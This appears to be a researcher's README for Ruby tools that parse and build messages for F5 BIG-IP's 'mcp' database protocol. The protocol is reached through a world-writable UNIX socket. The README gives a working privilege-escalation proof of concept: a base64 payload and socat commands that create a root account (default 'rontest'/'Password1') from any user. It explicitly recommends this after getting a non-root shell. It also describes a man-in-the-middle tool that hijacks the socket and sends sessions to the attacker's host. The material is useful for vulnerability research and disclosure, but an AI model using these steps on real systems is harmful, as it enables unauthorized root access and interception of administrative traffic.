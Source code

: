 This isn't really done or ready yet, but I wanted to get the code checked in.

This basically implements F5's database protocol, "mcp", which operates through
a UNIX domain socket.

# What is mcp?

MCP is a proprietary (AFAICT) database used by F5 BigIP. It's accessed through
`/var/run/mcp`, a UNIX domain socket with 0777 permissions (ie, any user can
access it).

The protocol is TLV-style, which a whole bunch of types (over 41,000). They're
all listed in [mcp-objects.txt](/mcp-objects.txt).

I implemented a parser that you can find in [mcp-parser.rb](/mcp-parser.rb),
and you can find a bunch of different messages in
[mcp-parser-tests.rb](/mcp-parser-tests.rb).

I also created a builder, [mcp-builder.rb](/mcp-builder.rb), although it's not
really designed to be easy to use. We do have a pre-defined function that
creates an MCP packet that creates a root-level user account, which is pretty
cool.

# Building and Sending MCP Messages

To communicate with MCP directly, you'll generally use `socat`. For example,
we can use `mcp-builder.rb` to create a message (using `gzip` + `base64` for
easier demos):

```
$ ruby mcp-builder.rb | gzip - | base64 -w0
H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxQ5KPA8gYCLGBaQ4ANbBwnA3tRfl5JanGJADtEowAHzJ5ox5ycWCDzBBZzDnALgukd3EJo5sifBAtwMLA55+fm5ucJxkPM5ZYEi3MzcOonZebpJyUWZ3CLgKUYuYXBUjkMWSpmKkVJJWZ5ocFB7s5VnlX5PhEqRUZ5vhk5RqY+5iZ5pUYm2aVJjvlVJYXBbklpiSlJZWaFeSmeeqa5roVRufph+oX6JXluejlB7pWpTnlZAcVFju4V5gbOKWnFZa76pZXhSb5uBYUFJfpgJyL7Kw/sHwYAd5yKZH8BAAA=
```

Then, on the host with `/var/run/mcp`, use socat to connect and save the
response again as base64 (note: this can be any user account, since the socket
is 0777):

```
# echo -ne 'H4[...]A=' | base64 -d | gunzip - | socat -t100 - UNIX-CONNECT:/var/run/mcp | base64 -w0
AAAAHgAAAAAAAAAAAAAAAAtUAA0AAAAWC1UABQAAAAALVwAMECgLWAAMECkAAAAAAB4AAAAAAAAAAAAAAAALVAANAAAAFgtVAAUAAAAAC1cADAtaC1gADAsRAAA=
```

And finally, we can parse that response:

```
$ echo -ne 'AAAAHgAAAAAAAAAAAAAAAAtUAA0AAAAWC1UABQAAAAALVwAMECgLWAAMECkAAAAAAB4AAAAAAAAAAAAAAAALVAANAAAAFgtVAAUAAAAAC1cADAtaC1gADAsRAAA=' | base64 -d | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry
```

You can, of course, do it all as a single command:

```
$ ruby mcp-builder.rb | ssh root@10.0.0.136 socat -t100 - UNIX-CONNECT:/var/run/mcp | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [96 bytes]):
 result_code (ulong) = 0x01020066 (16908390)
 result_message (string [78 bytes]) = "01020066:3: The requested user (rontest) already exists in partition Common."
```

## Privesc

As of this writing, `/var/run/mcp` is world-writable and therefore any user can
write to it! That means any user can add root users, which is a great thing to
do after exploiting a service and getting a non-root shell.

You can edit `mcp-builder.rb` to create whatever account you want, using
sha512crypt-style password hashes:

```
  create_root_account_plz("username", '$6$hashedpassword')
```

Then send the output from that into `/var/run/mcp` and it should create you an
account.

If you just run the PoC (or use `escalationplz.bin`), you'll get a new user with
the username `rontest` and the password `Password1`:

```
socat -t100 - UNIX-CONNECT:/var/run/mcp < escalationplz.bin
```

# Man in the Middle Inspection

I also wrote a tool to inspect database queries - [mcp-mitm.rb](/mcp-mitm.rb).
This isn't an exploit, it's just an analysis tool.

To run it:

* Ensure the server isn't being used for anything important - this is somewhere between "destructive" and "interrupty" because we yoink the database socket (it does try to fix it after!)
* Ensure the F5 Big-IP host can connect back to you on any two ports (1234 and 1235 by default)
* Ensure you can `ssh root@<target>` with no password or other input (or edit the code and turn off `DO_SETUP`)

Pretty much any potential "damage" is fixed with a reboot, since it creates the
socket at boot, but you probably don't wanna do that on prod.

Anyway, execute with no args to get the usage, then fill in the important IP
addresses:

```
$ ruby ./mcp-mitm.rb
Usage: ruby ./mcp-mitm.rb <your ip> <target ip> [listen port 1] [listen port 2]
[...]

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162
Configuration (edit the script to change, this is a PoC!):

Your IP: 10.0.0.179
Target IP: 10.0.0.162
Listening port 1: 1234
Listening port 2: 1235
SSH into the target to set things up: true
  (Make sure you can ssh into the host as root with no password)
  (Yes yes, I know it's a PoC!)
SSH'ing into the server to set things up
Ready!
```

If you wait around (or do stuff on the server), you'll see sessions:

```
Received session @ #<TCPSocket:0x000000000170d630> <--> #<TCPSocket:0x000000000170d658>

user_authenticated (structure [15 bytes]):
 user_authenticated_name (string [7 bytes]) = "admin"

start_transaction (structure [8 bytes]):
 start_transaction_load_type (ulong) = 0x00000000 (0)
[...]
```

Ctrl-c will stop it, and fix the socket:

```
^CSSH'ing into the server to fix things
Session 1 closed?
Ending thread
Ending thread
Traceback (most recent call last):
        3: from ./mcp-mitm.rb:149:in `<main>'
        2: from ./mcp-mitm.rb:149:in `loop'
        1: from ./mcp-mitm.rb:151:in `block in <main>'
./mcp-mitm.rb:151:in `accept': Interrupt
```

And that's it!
